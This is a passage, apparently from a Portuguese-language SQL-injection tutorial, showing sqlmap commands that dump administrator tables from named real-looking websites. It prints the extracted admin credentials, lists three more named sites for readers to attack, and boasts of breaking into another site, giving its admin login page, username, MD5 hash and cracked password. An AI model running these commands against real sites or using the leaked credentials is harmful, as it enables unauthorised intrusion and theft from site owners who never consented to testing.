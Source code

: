 De ante das tabelas enumeradas, cabe agora observar a tabela que possivelmente armazena
informações de login e senha. Neste caso a mais suspeita é a "admin". Vamos então
visualizar o conteúdo dela:

```
$ python sqlmap.py -u http://www.thailandquitline.or.th/news.php?id=1 -D admin_nd -T admin --dump -v0
```

Obs: -D admin_nd -T admin, define que queremos trabalhar com a tabela admin da database admin_nd.
Obs2: com --dump pedidos para o sqlmap nos mostrar o conteúdo desta tabela.

Resultado:

```
     web application technology: Apache 2, PHP 5.2.17
     back-end DBMS: MySQL 5.0.11
     Database: admin_nd
     Table: admin
     [1 entry]
     +------+------------------+---------------------+----------------------+----------------------+
     | root | username  | lastname       |   password     | firstname       |
     +-------+-----------------+---------------------+----------------------+----------------------+
     | 1      | admin       | Administrator | systemadmin | Administrator|
     +-------+------------------+---------------------+---------------------+----------------------+
```

Experimente fazer esses procedimentos com esses sites:

http://camping-boomerang.ch/en/news.php?ID=91
http://www.audio-prestige.ch/news/news.php?id=100
http://www.mediations.ch/cms/news.php?id=10


Consegui invadir esse site: http://www.stonetouch.ch/

```
$ python sqlmap.py -u http://www.stonetouch.ch/news.php?id=9 -D c_bohnet_stonetouch-english -T wk_admin_user --dump -v0
```

Página de login: http://www.stonetouch.ch/admin/privilege.php?act=login

Login: admin
Hash da senha em MD5: 0192023a7bbd73250516f069df18b500
Hash quebrado: admin123

EOF
